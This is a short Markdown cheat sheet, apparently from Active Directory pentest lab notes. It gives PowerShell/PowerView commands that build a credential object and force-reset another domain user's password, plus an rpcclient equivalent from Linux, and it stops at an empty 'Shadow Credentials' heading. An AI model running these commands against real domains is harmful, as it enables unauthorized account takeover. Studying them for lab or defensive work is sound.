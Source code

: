 ## Creating a PSCredential Object

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

## Changing the User's Password

```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity USER_TO_CHANGE_PASS -AccountPassword $PASS_OBJECT -Credential $Cred -Verbose
```

### From linux

#### rpc
```bash
rpcclient> setuserinfo UserName 23 password
                                ^
```

## Shadow Credentials